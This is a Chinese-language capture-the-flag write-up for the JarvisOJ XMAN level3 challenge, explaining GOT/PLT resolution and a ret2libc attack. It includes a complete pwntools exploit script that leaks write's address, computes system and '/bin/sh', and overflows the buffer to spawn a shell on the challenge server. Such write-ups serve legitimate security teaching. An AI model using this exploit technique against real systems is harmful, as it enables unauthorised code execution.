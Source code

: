 ```yaml
---
title: JarvisOJ——XMANlevel3题解
date: 2018-08-3 13:54:00
tags:
- CTF
categories:
- CTF
---
```

day4：XMANlevel3

## 一、GOT表和PLT表  ##


GOT(Global Offset Table)和PLT(Procedure Linkage Table)是Linux系统下面ELF格式的可执行文件中，用于定位全局变量和函数[动态库的]的数据信息.[一开始把GOT表和GDT表看重了，实际上完全不同。GOT+PLT表的目的就是为了在运行时重定位。]

在ELF文件的动态连接机制中，每一个外部定义的符号在全局偏移表 (Global Offset Table，GOT)中有相应的条目，如果符号是函数则在过程连接表(Procedure Linkage Table，PLT)中也有相应的条目，且一个PLT条目对应一个GOT条目。

使用PLT和GOT表的目的就是为了能够动态获取动态链接库中所需函数的地址。如果一个代码调用了非本地的函数，那么就不能单纯靠重定位获得最终地址。因为动态库的加载顺序都不是一定的，无法固定每个动态库中的函数具体位置。因此需要动态获取.so文件的函数地址。

PLT[x]实际上是用于计算[链接器生成一段额外的小代码片段，通过这段代码获取比如printf这样动态库中函数的地址，并完成对它的调用]，GOT用于存储外部函数的具体地址。

[PLT，GOT表的大致原理](https://blog.csdn.net/luojiabin135/article/details/79661868)

利用objdump -h 可执行文件名得到ELF文件的各个节信息。PLT表/节属于代码段，GOT表/节属于数据段

![](/assets/img/obj_gotplt.jpg)


在一些pwn题中，泄漏出的函数地址放在是got表中。为了泄漏这些真正的地址，往往会用到read，write，put等函数，通过已知同时存在于GOT和libc的函数地址，可以得出偏移量，接着就能通过偏移量找到system函数的真正地址，从而进行ret2lib操作[具体在下述实例中演示]。






PLT[0]是一个函数，这个函数的作用是通过GOT[0],GOT[1]和GOT[2]来正确绑定一个函数的真实地址到GOT表中来。而plt[0]代码做的事情则是：由于GOT[2]中存储的是动态链接器的入口地址，所以通过GOT[1]、GOT[0]中的数据作为参数，跳转到GOT[2]所对应的函数入口地址[即动态链接器]，这个动态链接器会将一个函数的真正地址绑定到相应的GOT[x]中。
 
一般是从GOT[3]，开始因为如上所述GOT[0],GOT[1]和GOT[2]有额外用途。中间进行的压栈是为了确定PLT对应的GOT表项，比如push 0x3即是PLT[1]−>GOT[3]. 压栈后我们跳转到PLT[0],接着PLT[0]中的指令会通过这次压栈的序号来确定操作的GOT表项为多少

解析PLT/GOT表的两次解析：https://www.jianshu.com/p/0ac63c3744dd


深入：http://www.360doc.com/content/14/1111/15/19184777_424304443.shtml
http://www.360doc.com/content/14/1111/15/19184777_424303666.shtml


## 解题思路 ##

![checksec查看栈保护机制开启情况](/assets/img/checksec3.jpg)

老样子，用checksec查看，和XMAN level2一样，开启了栈不可执行，但是没有开始栈随机化，故可以使用ret2libc技术。

用IDA查看，可以确定通过read函数输入buf进行溢出，但是并没有看到合适的目标函数。与level2相比，在level3的ELF程序中不在出现system和bin/sh。

![没有合适产生shell的函数](/assets/img/func3.jpg)

但是level3中还提供了libc-2.19.so的动态链接库文件，默认情况下，程序都会自动引入这个库中的函数。用ida对.so文件进行反汇编，可以看到system函数和“/bin/sh”字符串都存在

![找到可产生shell的函数](/assets/img/attack3.jpg)

于是思路：通过read(0,&buf,0x100)[其中0表示标准输入/键盘输入，如果是1则表示标准输出，2表示标准错误输出]，栈溢出ret到system函数，利用参数"/bin/sh"产生shell。

![构造栈帧](/assets/img/ans3.jpg)

### 但是问题在于system的地址如何知道呢？ ###

通过libc.so文件可以得到write、system和/bin/sh的相对.so基址的偏移量

设函数func在内存中地址为func_addr,在libc中偏移为func_libc则有

> 　sys_addr - sys_libc == write_addr - write_libc

所以我们可以通过泄露write函数的地址write_addr，**利用两函数在内存中的地址和libc文件中的偏移的差相等**，获得system的地址

> sys_addr == write_addr  + sys_libc - write_libc = write_addr +△ _ libc



### 构造两次溢出 ###

要利用偏移相等获得system和bin的地址，首先要泄露得到write的真实地址，可以通过打印write在got表中的地址，获取其真实地址。

那么第一次溢出，就是调用write函数[利用write函数写的功能]，打印出write_got[write函数的真实地址]。

利用sysaddr = writeaddr - writelibc + syslibc
以及binaddr = writeaddr - writelibc + binlibc得到system函数和"/bin/sh"的真实地址

第二次溢出，就是再次调用vuln_addr，产生一段缓冲区，提供read栈溢出漏洞，利用system函数和"/bin/sh"产生shell。得到flag。

----------

1.输出write的真实地址——**write(1,write_got,4字节)**

在栈溢出到write函数[利用write_plt间接调用write]打印GOT表中的write真实地址，提供"1，write_got，4"这些产生，1表示标准输出到屏幕，write_got表示GOT表中write地址存储的位置指针，4表示4字节打印长度，write的真实地址4字节大小。
【由于在此前已经调用过vulnerable_function中的write函数，那么PLT_GOT表+动态链接器已经得到了write函数的真实地址，并且存储在GOT表中。所以GOT[x]已更新，不再是对应PLT[x]】

![获取write函数的真实地址](/assets/img/write_addr.jpg)

当write成功调用后退栈时，将ebp+4作为返回地址，这里应当填充vulnerable_function函数的地址，二次溢出，利用read函数的栈溢出漏洞，跳转到system函数+"/bin/sh"产生shell[由于vulnerable_function函数不需要参数，故不会覆盖第一次溢出的参数]。


最终构造的栈帧图为：
[溢出write函数打印write_got+再返回到vuln函数再次执行read，实现二次溢出到system，最终获取shell]

![](/assets/img/level3.jpg)

## 解题步骤 ##

    #!usr/bin/env python
    # encoding:utf-8
    from pwn import *
    
    #io = process("./level3")
    io = remote("pwn2.jarvisoj.com",9879)
    elf = ELF("./level3")  #获取ELF文件头
    
    writeplt = elf.plt["write"]　　　　#plt和got节同.text节一样在ELF程序中都有标识
    writegot = elf.got["write"]   #得到write函数在GOT表和PLT表中的位置指针
    func = elf.symbols["vulnerable_function"] #在符号表中得到vulnerable_function的真实地址
    
    libc = ELF("./libc-2.19.so")  
    writelibc = libc.symbols["write"]　　　　#libc的符号表中找到程序中有的/没有的函数的偏移地址
    syslibc = libc.symbols["system"] 
    binlibc = libc.search("/bin/sh").next() #"/bin/sh"的偏移量
    
    payload1 = 'a' * 0x88 + 'f**k' + p32(writeplt) + p32(func) + p32(1)+p32(writegot)+p32(4)  #溢出地址+返回地址+参数
    
    io.recvuntil("Input:\n")
    io.sendline(payload1)
    
    writeaddr = u32(io.recv(4))　　　　#收到终端/屏幕输出的write真实地址[4字节]。由于python没有指针，不能*write_got，需要将其输出并保存
    sysaddr = writeaddr - writelibc + syslibc　　　　#利用偏移量相等获得其真实地址
    binaddr = writeaddr - writelibc + binlibc
    
    payload2 = 'a' * 0x88 + 'f**k' + p32(sysaddr) + p32(func) + p32(binaddr)  #二次溢出，还是有0x88+0x4的缓冲区
    io.recvuntil("Input:\n")
    io.sendline(payload2)
    io.interactive()
    io.close()


![攻击过程结果](/assets/img/process3.jpg)

## 补充 ##

[libc中的文件IO函数](https://blog.csdn.net/miss_acha/article/details/38274883)


**基于文件描述符**的I/O函数有：**open, close, read, write, getc, getchar, putc, putchar**等。他们**属于系统调用，更接近于硬件**，属于非缓冲文件系统的IO函数。

非缓冲文件系统依赖于操作系统，**通过操作系统的功能对文件进行读写，是系统级的输入输出，它不设文件结构体指针，只能读写二进制文件**[而文本文件不行]，（对于UNIX系统内核而言，文本文件和二进制代码文件并无区别），但效率高、速度快。由于ANSI标准不再包括非缓冲文件系统，因此，在读取正规的文件时，建议大家最好不要选择它。


**基于文件指针**的I/O函数有：**fopen,fclose,fread,fwrite,fgetc,fgets,fputc,fputs,freopen,fseek,ftell,rewind, fprintf等**。他们属于库函数，是对open,write等系统调用的封装，属于缓冲文件系统的I/O函数。

缓冲文件系统是借助于文件结构体指针FILE*来对文件进行管理，
**通过文件指针对文件进行访问，即可以读写字符、字符串、格式化数据，也可以读写二进制数据。**